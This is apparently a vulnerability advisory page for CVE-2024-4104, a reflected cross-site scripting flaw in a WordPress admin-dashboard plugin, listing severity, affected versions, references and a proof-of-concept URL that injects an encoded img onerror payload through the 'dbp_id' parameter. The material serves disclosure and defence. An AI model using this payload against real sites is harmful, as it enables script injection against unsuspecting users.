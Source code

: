 ```yaml
---
layout: page
title: CVE-2024-4104
subtitle: ADFO – Custom data in admin dashboard <= 1.9.0 - Reflected Cross-Site Scripting
---
```

## Description
The ADFO – Custom data in admin dashboard plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the 'dbp_id' parameter in all versions up to, and including, 1.9.0 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a user into performing an action such as clicking on a link.

## Severity
 6.1 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.9.0

## PoC :
```
- Open this link
```
[ASSETS]/wp-admin/admin.php?page=admin_form&section=list-sql-edit&dbp_id=1<%2FScript%2F><Img%2FSrc%2FOnError%3Dconfirm%3F.(1337)>
```
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/admin-form/adfo-custom-data-in-admin-dashboard-190-reflected-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-4104





